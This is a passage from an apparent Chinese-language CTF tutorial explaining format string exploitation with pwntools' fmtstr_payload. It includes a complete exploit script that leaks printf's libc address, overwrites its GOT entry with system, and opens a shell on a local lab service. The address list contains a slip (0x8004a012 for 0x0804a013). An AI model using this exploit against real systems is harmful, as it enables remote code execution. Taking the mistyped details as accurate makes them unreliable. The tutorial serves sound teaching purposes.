 上述代码中 `autofmt = FmtStr(exec_fmt)` 到这行的内容之前都讲过，接下来就是 `fmtstr_payload` 函数，这个函数的作用是用来生成格式化字符串漏洞写内存的payload.

上述代码的第一个参数为offset偏移，第二个参数是一个字典，意义是往key的地址，写入value的值，也就是往 `0x804a010` 地址写入数据 `0xaaaaaaaa`

我们来看看输出的payload:

```
...
>>> payload = fmtstr_payload(autofmt.offset, {printf_got: system_add})
>>> payload
'\x10\xa0\x04\x08\x11\xa0\x04\x08\x12\xa0\x04\x08\x13\xa0\x04\x08%154c%11$hhn%12$hhn%13$hhn%14$hhn'
```

开头16bytes是4个地址:

```
0x0804a010  
0x0804a011  
0x0804a012  
0x8004a012
```

然后是格式化字符串: `%154c` , 输出hex(154)==0x9a bytes的字符，再加上之前的16bytes地址，一共有0xaa bytes

第三部分也是格式化字符串: `%11$hhn%12$hhn%13$hhn%14$hhn` ，往第11, 12, 13, 14个参数指向的地址写入一个值，该值等于之前输出的byte数，在这里就是0xaa

而偏移值为11, 所以第11个参数为payload头，也就是 `0x0804a010` ，然后以此类推

就是通过上述逻辑往相应地址写入相应值的

所以可以写出exp:

```
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

context.log_level = 'debug'

p = remote("127.0.0.1", 10001)

# 获取printf的libc地址
printf_got = 0x804a010  
leak_payload = "b%13$saa" + p32(printf_got)

p.sendline(leak_payload)

p.recvuntil("b")  
info = p.recvuntil("aa")[:-2]  
print info.encode('hex')

# 计算system的libc地址
print_add = u32(info[:4])  
p_s_offset = 59600     # addr(printf) - addr(system) 
system_add = print_add - p_s_offset

# 生成payload
payload = fmtstr_payload(11, {printf_got: system_add})

# 发送payload
p.sendline(payload)  
p.sendline('/bin/sh')  
p.interactive()
```
